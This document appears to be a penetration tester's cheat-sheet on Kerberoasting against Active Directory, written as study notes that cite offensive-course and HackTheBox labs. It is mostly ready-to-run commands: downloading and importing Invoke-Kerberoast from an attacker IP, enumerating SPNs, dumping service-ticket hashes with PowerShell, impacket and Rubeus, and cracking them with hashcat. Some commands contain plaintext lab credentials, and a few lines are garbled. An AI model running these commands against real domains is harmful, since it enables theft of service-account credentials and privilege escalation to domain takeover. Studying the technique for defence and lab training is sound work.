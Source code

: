 
### Kerberoast
+ service account attacks
+ abuse service ticket and attemp to crack the password of service account/high-privilege service account in domains
+ kerberos protocol, service ticket使用4-40a50000-appsrv02$@LDAP~dc01.exam.com-EXAM.COM.kirbi SPN密码的hash进行加密；
+ attack: dumping NTDS.dit, if service account is a domain admin; if not admins, log into other system and pivot or escalate or password spray attack with the cracked pwd.
+ 
+ offensive course, p650
+ [hacktricks - kerberoast](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast)
+ [pentest lab - invoke kerberoast](https://pentestlab.blog/tag/invoke-kerberoast/)
+ [V3teran - SPN和kerberoast攻击](https://blog.v3teran.xyz/2021/02/08/8ac3dc81.html)

**Invoke-Kerberoast**

```powershell
# https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1

# extract all account in spn
setspn -T medin -Q ​ */*

# invoke-kerberoast
Invoke-WebRequest -uri http://10.11.73.77/Invoke-Kerberoast.ps1 -outfile Invoke-kerberoast.ps1
import-module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -outputformat hashcat |fl
Invoke-Kerberoast -outputformat hashcat | Select hash | ConvertTo-CSV -NoTypeInformation

## no output, try with creds
$SecPassword = ConvertTo-SecureString 'Ashare1972' -AsPlainText -force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\amanda', $SecPassword)
Invoke-Kerberoast -Credential $Cred -outputformat hashcat |fl

# crack with hashcat/john
hashcat -m 13100 -a 0 fela.hash /usr/share/wordlists/rockyou.txt --force
```

**impacket on linux**
```bash
echo '10.10.111.19 corp' | sudo tee -a /etc/hosts
# domain/user:password, get the hash.
GetUserSPNs.py corp.local/dark:_QuejVudId6 -dc-ip $tip -request

hashcat -m 13100 -a 0 fela.hash /usr/share/wordlists/rockyou.txt --force
```

**rebeus kerberoast**
```bash
## dump the kerberos hash of any kerberoastable users.
rebeus.exe kerberoast
rebeus.exe kerberoast /nowrap

## with creds.
## error: [X] Error during request for SPN http/sizzle@HTB.LOCAL : No credentials are available in the security package
rebeus.exe kerberoast kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /nowrap
```
